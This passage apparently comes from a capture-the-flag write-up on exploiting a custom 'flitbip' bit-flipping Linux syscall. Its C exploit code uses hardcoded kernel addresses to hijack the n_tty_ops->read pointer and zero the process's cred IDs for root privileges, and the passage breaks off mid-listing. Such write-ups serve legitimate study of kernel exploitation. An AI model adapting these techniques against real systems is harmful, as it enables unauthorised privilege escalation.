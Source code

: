 ```c
#define FLITBIP 333
#define flitbip(addr, bit) syscall(FLITBIP, addr, bit)
#define N_TTY_OPS_READ_OFFSET 48

unsigned long *FLIT_COUNT = (unsigned long *)0xffffffff818f4f78;
unsigned long *N_TTY_OPS  = (unsigned long *)0xffffffff8183e320;
unsigned long *N_TTY_READ = (unsigned long *)0xffffffff810c8510;

void privilege_escalation(void) {}

int main(void) {
    // Set flit_count to a negative number to allow us do many syscalls
    flitbip(FLIT_COUNT, 63);

    // Write n_tty_ops->read address
    unsigned long mask = (unsigned long)N_TTY_READ ^ (unsigned long)privilege_escalation;
    for(long index=0; index<64; index++) {
        if(mask & (1ULL << index)) {
            flitbip((char *)N_TTY_OPS + N_TTY_OPS_READ_OFFSET, index);
        }
    }

    // Trigger the n_tty_ops->read operation
    char c;
    scanf("%c", &c);

    return 0;
}
```

### Privilege escalation

A common technique for privilege escalation in kernel exploitation involves modifying the `cred` structure located within the `task_struct` structure of our process. To accomplish this, we need to discover a way to access the current task structure and reset all the IDs (uid, gid, euid, egid, etc.) within the `cred` struct to 0. Fortunately, we can obtain access to our current task structure through the `current_task` global variable. We can enhance our exploit as follows:

```c
#define FLITBIP 333
#define flitbip(addr, bit) syscall(FLITBIP, addr, bit)
#define TASK_STRUCT_CRED_OFFSET 0x3c0
#define N_TTY_OPS_READ_OFFSET 48

unsigned long *FLIT_COUNT   = (unsigned long *)0xffffffff818f4f78;
unsigned long *CURRENT_TASK = (unsigned long *)0xffffffff8182e040;
unsigned long *N_TTY_OPS    = (unsigned long *)0xffffffff8183e320;
unsigned long *N_TTY_READ   = (unsigned long *)0xffffffff810c8510;

void privilege_escalation(void) {
    // Set all ids from our user one to the root one (0)
    int *cred = *(unsigned long *)((char *)*CURRENT_TASK + TASK_STRUCT_CRED_OFFSET);

    for(int index=1; index<9; index++) {
        cred[index] = 0;
    }

    // Re-establish the n_tty_ops->read pointer
    *(unsigned long **)((char *)N_TTY_OPS + N_TTY_OPS_READ_OFFSET) = N_TTY_READ;
}

int main(void) {
    // Set flit_count to a negative number to allow us do many syscalls
    flitbip(FLIT_COUNT, 63);
```